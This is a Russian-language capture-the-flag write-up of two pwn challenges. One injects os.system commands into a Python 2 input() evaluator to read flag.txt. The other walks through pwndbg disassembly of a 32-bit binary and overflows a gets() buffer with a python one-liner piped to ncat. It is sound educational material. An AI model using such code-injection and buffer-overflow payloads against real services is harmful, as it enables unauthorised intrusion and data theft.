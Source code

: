 Безопасный калькулятор [Pwn 80]
================

Пользователю дан исходный код сервиса:
>print 'SuperCalc: '  
print(input())


Те, кто программируют на языке Python, знают опасность функции  
```input()```

– в python2 она эквивалентна функции  
```eval(raw_input())```


Следовательно, можем ее эксплуатировать.  
>$ ncat n00bs.ml 13376  
$ __import__(‘os’).system(‘ls’)  
$ __import__(‘os’).system(‘cat flag.txt’)



Невозможное возможно [Pwn 200]
================

У пользователя имеется исполняемый ```32bit elf``` файл, который также расположен на сервере.  
Отладим его с помощью *nix деббагера gdb.  
Первым делом посмотрим имеющиеся в программе функции:  
```pwndbg> info functions``` 

>All defined functions:  
Non-debugging symbols:  
0x0000046c  _init  
0x000004a0  strcmp@plt  
0x000004b0  gets@plt  
0x000004c0  fgets@plt  
0x000004d0  puts@plt  
0x000004e0  __libc_start_main@plt  
0x000004f0  fopen@plt  
0x00000510  _start  
0x00000550  __x86.get_pc_thunk.bx  
0x00000560  deregister_tm_clones  
0x000005a0  register_tm_clones  
0x000005f0  __do_global_dtors_aux  
0x00000640  frame_dummy  
0x00000649  __x86.get_pc_thunk.dx  
0x0000064d  func_A  
0x0000068d  main  
0x00000710  __libc_csu_init  
0x00000770  __libc_csu_fini  
0x00000774  _fini  


Посмотрим теперь ассемблерные листинги функций ```main``` и ```func_A```:   
```pwndbg> disassemble main```

>Dump of assembler code for function main:  
   0x5655568d <+0>:  lea    ecx,[esp+0x4]  
   0x56555691 <+4>:  and    esp,0xfffffff0  
   0x56555694 <+7>:  push   DWORD PTR [ecx-0x4]  
   0x56555697 <+10>:  push   ebp  
   0x56555698 <+11>:  mov    ebp,esp  
   0x5655569a <+13>:  push   ecx  
   0x5655569b <+14>:  sub    esp,0x14  
   0x5655569e <+17>:  sub    esp,0x8  
   0x565556a1 <+20>:  push   0x5655579c  
   0x565556a6 <+25>:  push   0x5655579e  
   0x565556ab <+30>:  call   0xf7e39a20 <fopen>  
   0x565556b0 <+35>:  add    esp,0x10  
   0x565556b3 <+38>:  mov    DWORD PTR [ebp-0xc],eax  
   0x565556b6 <+41>:  sub    esp,0x4  
   0x565556b9 <+44>:  push   DWORD PTR [ebp-0xc]  
   0x565556bc <+47>:  push   0x1e  
   0x565556be <+49>:  push   0x56557030  
   0x565556c3 <+54>:  call   0xf7e39770 <fgets>  
   0x565556c8 <+59>:  add    esp,0x10  
   0x565556cb <+62>:  call   0x5655564d <func_A>  
   0x565556d0 <+67>:  cmp    eax,0x5  
   0x565556d3 <+70>:  jne    0x565556e7 <main+90>  
   0x565556d5 <+72>:  sub    esp,0xc  
   0x565556d8 <+75>:  push   0x56557030  
   0x565556dd <+80>:  call   0xf7e3b2c0 <puts>  
   0x565556e2 <+85>:  add    esp,0x10  
   0x565556e5 <+88>:  jmp    0x565556f7 <main+106>  
   0x565556e7 <+90>:  sub    esp,0xc  
   0x565556ea <+93>:  push   0x565557a7  
   0x565556ef <+98>:  call   0xf7e3b2c0 <puts>  
   0x565556f4 <+103>:  add    esp,0x10  
   0x565556f7 <+106>:  mov    eax,0x0  
   0x565556fc <+111>:  mov    ecx,DWORD PTR [ebp-0x4]  
   0x565556ff <+114>:  leave    
   0x56555700 <+115>:  lea    esp,[ecx-0x4]  
   0x56555703 <+118>:  ret      
End of assembler dump.  


```pwndbg> disassemble func_A```

>Dump of assembler code for function func_A:  
   0x5655564d <+0>:  push   ebp  
   0x5655564e <+1>:  mov    ebp,esp  
   0x56555650 <+3>:  sub    esp,0x28  
   0x56555653 <+6>:  mov    DWORD PTR [ebp-0xc],0x1  
   0x5655565a <+13>:  sub    esp,0xc  
   0x5655565d <+16>:  lea    eax,[ebp-0x1c]  
   0x56555660 <+19>:  push   eax  
   0x56555661 <+20>:  call   0xf7e3aa40 <gets>  
   0x56555666 <+25>:  add    esp,0x10  
   0x56555669 <+28>:  sub    esp,0x8  
   0x5655566c <+31>:  push   0x56555790  
   0x56555671 <+36>:  lea    eax,[ebp-0x1c]  
   0x56555674 <+39>:  push   eax  
   0x56555675 <+40>:  call   0xf7f283b0  
   0x5655567a <+45>:  add    esp,0x10  
   0x5655567d <+48>:  test   eax,eax  
   0x5655567f <+50>:  jne    0x56555688 <func_A+59>  
   0x56555681 <+52>:  mov    eax,0x0  
   0x56555686 <+57>:  jmp    0x5655568b <func_A+62>  
   0x56555688 <+59>:  mov    eax,DWORD PTR [ebp-0xc]  
   0x5655568b <+62>:  leave    
   0x5655568c <+63>:  ret      
End of assembler dump.  


Разобравшись в ассемблерном коде можно определить, что в ходе ввыполнения программы происходит следующее: 

1) Считывание данных из файла ```flag.txt```
>0x565556c3 <+54>:  call   0xf7e39770 <fgets>

2) Ввод данных с клавиатуры 
>0x56555661 <+20>:  call   0xf7e3aa40 <gets>

3) Сравнение введенной строки с константной
>0x56555675 <+40>:  call   0xf7f283b0

Сама строка находится по адресу ```0x56555790```
>0x5655566c <+31>:  push   0x56555790

Можем узнать ее содержимое:  
```pwndbg> x/s 0x56555790```
>0x56555790:  "Hello World"

Если строки не равны, то выполнение программы продолжается.

4) Сравнение значения величины, которая расположена по смещению ```0x10 байт``` с величной ```0x05```  
```0x565556d0 <+67>:  cmp    eax,0x5```

Если значения равны, то выводится содержимое файла ```flag.txt```

Таким образом, можно сделать вывод, что для вывода содержимого файла ```flag.txt``` необходимо передать строку, не равную ```"Hello World"```, на 17й позиции которой расположено значение ```0x05```.

Проще всего это сделать следующим образом:

>```python -c "print 'a'*16 + '\x05'" | ncat n00bs.ml 13377```
